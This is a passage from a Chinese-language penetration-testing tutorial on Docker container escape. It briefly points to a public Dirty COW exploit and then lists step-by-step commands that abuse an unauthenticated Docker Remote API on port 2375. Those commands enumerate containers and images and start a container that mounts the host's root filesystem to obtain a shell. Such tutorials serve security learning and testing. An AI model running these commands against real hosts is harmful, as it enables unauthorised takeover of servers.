 ![image-20201209201050084](assets/1700701638-86ee4cb2cd19da506a0d894d4607ee40.png)

#### 脏牛

利用漏洞章节处的脏牛漏洞提权也可以达到逃逸目的，这里不重复演示。  
POC地址：  
[https://github.com/scumjr/dirtycow-vdso](https://github.com/scumjr/dirtycow-vdso)

### 未授权访问

当默认端口为2375的Docker Remote API对外未授权开放时，攻击者可以利用该漏洞进行getshell。  
未授权测试过程：  
获取所有images列表：

```plain
curl http://host:2375/containers/json
```

获取运行中的容器：

```plain
docker -H tcp://host:2375 ps
```

getshell过程：  
获取镜像:

```plain
docker -H tcp://host:2375 images
```

根据镜像创建容器，把宿主机根目录挂载到容器中：

```ruby
docker -H tcp://host:2375 run -it -v /:/mnt/ image_id /bin/bash
```

创建容器后没自动进入容器的话，可以利用ps查看创建容器的CONTAINER ID：

```plain
docker -H tcp://host:2375 ps
```

